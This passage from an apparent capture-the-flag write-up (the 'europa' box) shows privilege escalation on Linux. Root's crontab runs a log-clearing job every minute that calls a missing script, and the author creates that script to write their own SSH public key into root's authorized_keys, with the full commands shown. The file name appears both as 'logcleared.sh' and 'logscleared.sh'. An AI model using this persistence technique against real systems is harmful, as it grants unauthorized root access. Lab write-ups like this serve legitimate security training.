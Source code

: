 
`logcleared.sh` doesn’t exist.

In `/etc/crontab`, there’s a line that’s calling `clearlogs` every minute:

    
    
    www-data@europa:/$ cat /etc/crontab 
    # /etc/crontab: system-wide crontab
    # Unlike any other crontab you don't have to run the `crontab'
    # command to install the new version when you edit this file
    # and files in /etc/cron.d. These files also have username fields,
    # that none of the other crontabs do.
    
    SHELL=/bin/sh
    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
    
    # m h dom mon dow user  command
    17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
    25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    #
    * * * * *       root    /var/www/cronjobs/clearlogs
    

### Execution

Given that `clearlogs` is being called every minute, and `clearlogs` is
calling `logscleared.sh`, but that file doesn’t exist, if I can create it,
I’ll have execution to run whatever I want. I’ll create a script that puts my
tiny ed25519 public SSH key into the root `authorized_keys` file, and make it
executable:

    
    
    www-data@europa:/var/www/cmd$ echo -e '#!/bin/bash\n\nmkdir /root/.ssh\necho "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > /root/.ssh/authorized_keys'
    #!/bin/bash
    
    mkdir /root/.ssh
    echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > /root/.ssh/authorized_keys
    